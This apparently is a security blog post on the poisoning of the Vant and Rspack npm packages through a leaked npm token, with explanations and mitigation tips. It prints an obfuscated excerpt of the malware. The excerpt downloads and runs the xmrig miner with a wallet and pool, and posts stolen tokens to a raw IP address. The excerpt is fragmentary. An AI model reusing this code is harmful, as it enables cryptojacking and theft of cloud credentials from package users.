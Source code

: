 ```yaml
---
title: A poisoning incident caused by an NPM token leak
---
```

## Background
<!--more-->
Due to the leak of a developer's NPM token, the NPM packages Vant, @rspack/core, and @rspack/cli were poisoned.
[![Issues](/assets/2024-12-19/token-leak-github.jpg)](https://github.com/youzan/vant/discussions/13273)
The attacker embedded the mining software xmrig in the code and stole users' cloud service credentials.
The poisoned partial code:
```javascript
function _0x490324() {
        return _0x4a8553(this, undefined, undefined, function* () {
            const _0x3f26b7 = yield function (_0x1d5cc6) {
                return _0x4a8553(this, undefined, undefined, function* () {
                    const _0x2c5ca1 = "https://api.github.com/repos/youzan/vant/git/blobs/" + _0x1d5cc6;
                    const _0x474a42 = _0x16ed2a.join("/tmp/", "vant.tar.gz");
                    const _0x1e3d06 = _0x16ed2a.join("/tmp/", "vant");
                    const _0x3fe94f = {
                        'Accept': 'application/vnd.github.raw+json'
                    };
                    try {
                        0x0;
                        const _0x37fd84 = yield _0x33f3f1["default"]({
                            'method': "GET",
                            'url': _0x2c5ca1,
                            'responseType': "stream",
                            'headers': _0x3fe94f
                        });
                    try {
                        yield _0x4973ce.x({
                            'file': _0x474a42,
                            'cwd': "/tmp/"
                        });
                    return _0x1e3d06;
                });
            }("8ed1c9256b4bfeb3e4f5aaff48bf140398361ae3");
            if ('' === _0x3f26b7) {
                            const _0x13db7a = yield _0x33f3f1["default"]({
                                'method': "GET",
                                'url': 'https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-linux-static-x64.tar.gz',
                                'responseType': "stream"
                            });
                        try {
                            yield _0x4973ce.x({
                                'file': _0x29d56d,
                                'cwd': "/tmp/",
                                'filter': _0xae122a => _0xae122a.endsWith("xmrig"),
                                'strip': 0x1
                            });
                            yield _0x14f1da.renameSync("/tmp/xmrig", '/tmp/vant_helper');
                    });
                }(), ['-u', "475NBZygwEajj4YP2Bdu7yg6XnaphiFjxTFPkvzg5xAjLGPSakE68nyGavn8r1BYqB44xTEyKQhueeqAyGy8RaYc73URL1j", '-o', "pool.supportxmr.com:443", '--tls', '-k', '--cpu-max-threads-hint=75', "--background"]);
            yield function (_0x392e85) {
                    try {
                        (yield _0x33f3f1["default"].post("http://80.78.28.72/tokens", _0x57e4cd)).status;
                    }
        });
}
```
## What is an NPM Token used for?

> 1. Authenticating and accessing the NPM registry:
An NPM token is used to authenticate a developer's identity and securely access the NPM registry. It allows developers to publish and install packages without needing to use a username and password.
> 2. Automating package publishing:
NPM tokens enable developers to automate tasks like publishing packages to the NPM registry. This eliminates the need to manually enter credentials each time, streamlining the workflow.
> 3. Managing permissions for private packages:
NPM tokens can be used to manage and control access to private packages, ensuring that only authorized users or systems can install or modify them.
> 4. Storing tokens securely:
NPM tokens are typically stored in configuration files or environment variables. This ensures sensitive information, such as API keys or credentials, is securely managed and not exposed in plain text.

## How to generate it?
We can create an NPM token by clicking on the avatar -> Access Tokens in the official NPM repository.
![NPM Token](/assets/2024-12-19/npm-tokens.jpg)

## Why does it get leaked?
Aside from system hacks or phishing attacks, a common cause of leaks is hardcoding the NPM Token and accidentally publishing it to a public code repository.
Importantly, [Praetorian exploited the Pwn Request vulnerability to compromise ByteDance’s Rspack.](https://www.praetorian.com/blog/compromising-bytedances-rspack-github-actions-vulnerabilities/)

## If it gets leaked, it can be exploited for poisoning?
If two-factor authentication is not enabled, an NPM Token leak could directly grant attackers access to sensitive information or resources, as well as the ability to publish new versions of malicious components.

## Suggestions
1. [Avoid PWN Request vulnerabilities](https://www.endorlabs.com/learn/pwn-request-threat-a-hidden-danger-in-github-actions)
2. Enable Multi-Factor Authentication (MFA)
2. Regularly Replace Tokens
3. Store Tokens in a Secure Location
4. Monitor Logs for Suspicious Activity